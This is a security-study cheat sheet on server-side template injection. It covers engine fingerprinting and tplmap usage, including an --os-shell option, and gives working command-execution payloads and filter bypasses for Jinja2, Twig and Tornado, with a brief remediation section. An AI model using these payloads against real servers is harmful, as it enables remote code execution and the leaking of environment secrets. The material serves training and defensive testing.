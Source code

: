 # Server-Side Template Injection (SSTI)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssti_server_side_template_injection](../../../../_badges/hacktricks/pentesting_web/ssti_server_side_template_injection.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/)
[![ssti](../../../../_badges/poat/ssti.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
[![java_ssti](../../../../_badges/rootme/web_server/java_ssti.svg)](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection)

<div class="row row-cols-lg-2"><div>

Server-Side Template Injection occurs when we can inject code that is parsed by a template engine such as [Jinja2](/programming-languages/web/topics/templating/jinja2/index.md) in Python.

You may be able to guess the template engine used from the web server, for instance, if it's Python then it's most likely Jinja.

To guess the template engine, we can try every token (`${{<%[%'"}}%\`) with expressions such as `7*7` or `7*'7'` and look for the output/errors.

* [Port Swigger SSTI Decision Tree](https://portswigger.net/web-security/images/template-decision-tree.png)
* [Template Injection Table](https://cheatsheet.hackmanit.de/template-injection-table/)
</div><div>

There are a few tools you might use:

* [TInjA](https://github.com/Hackmanit/TInjA) <small>(0.2k ⭐)</small>
* [sstimap](https://github.com/vladko312/sstimap) <small>(0.6k ⭐)</small>
* [tplmap](https://github.com/epinna/tplmap) <small>(3.6k ⭐, 2022 🪦)</small>

```ps
$ tplmap -u 'http://example.com:80/*'
$ tplmap -u 'http://example.com:80' -d 'xxx=yyy'
$ tplmap -u 'http://example.com:80' -d 'xxx=yyy' --os-shell
```
</div></div>

<hr class="sep-both">

## Jinja2 Template Engine — Python

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![jinja2_ssti](../../../../_badges/hacktricks/pentesting_web/ssti_server_side_template_injection/jinja2_ssti.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)
[![django_unchained](../../../../../cybersecurity/_badges/rootme/realist/django_unchained.svg)](https://www.root-me.org/en/Challenges/Realist/Django-unchained)
[![djangocatz](../../../../../cybersecurity/_badges/rootme/realist/djangocatz.svg)](https://www.root-me.org/en/Challenges/Realist/DjangocatZ)

<div class="row row-cols-lg-2"><div>

#### Jinja2 SSTI — PoC

Refer to [JinJa2 Notes](/programming-languages/web/topics/templating/jinja2/index.md) if needed.

* Basic Fingerprint PoC: `{{ "PoC" }}` then `{{ "PoC"|e }}`
* Test for instructions: `{% debug %}` and `{% print("PoC") %}`

Try to print the context `{{ self._TemplateReference__context }}`. It's always available unless filtered. It will list which objects are available.

* `range`: a Python object
* `dict`: a Python object
* `cycler`: a Python object
* `lipsum`: a Python function
* `joiner`: a Python object
* `namespace`: a Python object
* `config`: a Python object
* `request`: a Python object available with Flask

#### Jinja2 SSTI — Local Testing

If we don't care about XSS, the shortest code to test is:

```py
from jinja2 import Template
template = Template("""{{ self }}""")
output = template.render()
print(output)
```

If we need to consider XSS, which is the default with Flask, use:

```py
from jinja2 import Environment, select_autoescape
env = Environment(autoescape=select_autoescape(['html', 'xml']))
template = env.from_string("""{{ self }}""")
output = template.render()
print(output)
```

Finally, if we need to test a sandbox environment, e.g. where `self` is empty and only some classes/attributes are allowed:

```py
# Extend sandbox.SandboxedEnvironment to allow attributes
from jinja2 import select_autoescape, DictLoader, sandbox
template_string = """{{ self.__dict__ }}"""
env = sandbox.SandboxedEnvironment(
    loader=DictLoader({'dummy_template': template_string}),
    autoescape=select_autoescape(['html', 'xml'])
)
env.globals = {} # add stuff here
template = env.get_template('dummy_template')
output = template.render()
print(output)
```
</div><div>

#### Jinja2 SSTI — Modern payloads

Old payloads were using introspection from `()` or `""` ([ref](https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/)).

```js!
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler.__init__.__globals__.os.popen("ls -1a").read() }}
{{ lipsum.__globals__.os.popen('ls -1a').read() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').system('ls') }}
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -1a').read() }}
```

#### Jinja2 SSTI — Filter Bypass

Refer to my [Python Cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#python) and this summary:

```js!
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler|attr('__init__')|attr('__globals__')|attr('get')('os')|attr('system')('ls') }}
{{ cycler|attr('__in'+'it__')|[...] }}
{{ cycler|attr('__in'~'it__')|[...] }}
{{ cycler|attr(('@@in'~'it@@'|replace("@", "\u005F")))|[...] }}
{{ lipsum['__builtins__'].__import__('os').system('whoami') }}
{{ iamnotfiltered.__init__.__globals__.__builtins__.__import__('os').system('whoami') }}
```

One thing of importance is that Jinja support a property access syntax with `[]` even for objects such as `os` which natively don't support it.

```js!
{{ cycler['__init__'] }}
{{ self['__dict__'] }}
{{ some_payload.__import__('os')['system'] }}
```

#### Jinja2 SSTI — Remediation

Never inject untrusted input in your template before rendering them. Always pass the input as parameters and use `{{ param|e }}` to avoid XSS. Flask automatically escape all parameters by default.
</div></div>

<hr class="sep-both">

## Well-Known Template Engines

<div class="row row-cols-lg-2"><div>

#### Twig Template Engine — PHP

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)

Link to the [official documentation](https://twig.symfony.com/documentation). [GitHub](https://github.com/twigphp/Twig) <small>(8.0k ⭐)</small>.

* Basic Fingerprint PoC: `{{_self}}`, `{{_self.env}}`
* Random payloads:

```js!
{{_self.env.display("TEST")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname;printenv")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id;uname -a;hostname;printenv")}}
```

📚 Both `exec` and `system` are PHP functions.
</div><div>

#### Apache Velocity Template Engine — Java

Link to the [official documentation](https://velocity.apache.org/).

* Basic PoC: `#set($s=7+7) $s`

<br>

#### Tornado Web Framework Templates — Python

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)

Link to the template section of the [official documentation](https://www.tornadoweb.org/en/stable/guide/templates.html).

```js!
{% import os %}{{os.popen('whoami').read()}}
```
</div></div>